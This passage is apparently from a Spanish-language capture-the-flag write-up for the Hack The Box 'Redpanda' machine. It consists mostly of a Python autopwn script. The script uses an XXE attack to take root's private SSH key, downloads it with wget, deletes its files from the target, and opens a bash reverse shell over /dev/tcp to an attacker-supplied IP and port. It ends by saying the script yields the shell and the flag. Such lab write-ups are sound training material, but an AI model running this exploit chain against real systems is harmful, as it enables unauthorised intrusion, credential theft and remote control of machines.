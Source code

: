 ```python
# exploit process
def run(args):
    progress = log.progress('Starting attack')
    
    # create workstation and upload files to XXE attack
    upload_files(args, progress)

    # wait for XXE file processing and extract to local machine
    xxe_attack_processing(args, progress)

    # remote and local commands
    redpanda_machine = {
        'share id_rsa_file' : f'/bin/bash {workstation}/{share_server}',
        'remove files' : f'/usr/bin/rm -r {workstation}',
        'kill server': 'fuser -k 7777/tcp'
    }
    local_machine = {
        'download id_rsa' : f'/usr/bin/wget http://{redpanda_ip}:7777/{pwned_xml} -O id_rsa_file',
        'assign permissions' : '/usr/bin/chmod 600 id_rsa_root',
        'ssh reverse' : f'/usr/bin/ssh -q -i id_rsa_root root@{redpanda_ip} "/bin/bash -c \'/bin/bash -i >& /dev/tcp/{args.ip}/{args.port} 0>&1\'"'
    }

    # download .xml and extract private key
    download_and_extract_key(args, progress, local_machine, redpanda_machine)
 
    # remove workstation and files on redpanda machine
    run_redpanda_command('remove files', redpanda_machine)

    # init reverse shell by SSH
    reverse_shell(args, progress, local_machine['ssh reverse'])

# main program flow and argument declaration
if __name__ == '__main__':
    parser = argparse.ArgumentParser(
        description='Autopwn Redpanda HTB machine',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog='''Example:
        autopwn.py -i 10.10.10.10 -p 4444
        ''')

    parser.add_argument('-i', '--ip', required=True, help='specific IP to receive the shell')
    parser.add_argument('-p', '--port', required=True, type=int, help='specific PORT to receive the shell')

    args = parser.parse_args()

    run(args)
```

Ahora solo lo ejecutamos, esperamos el proceso, conseguimos la shell y la flag:
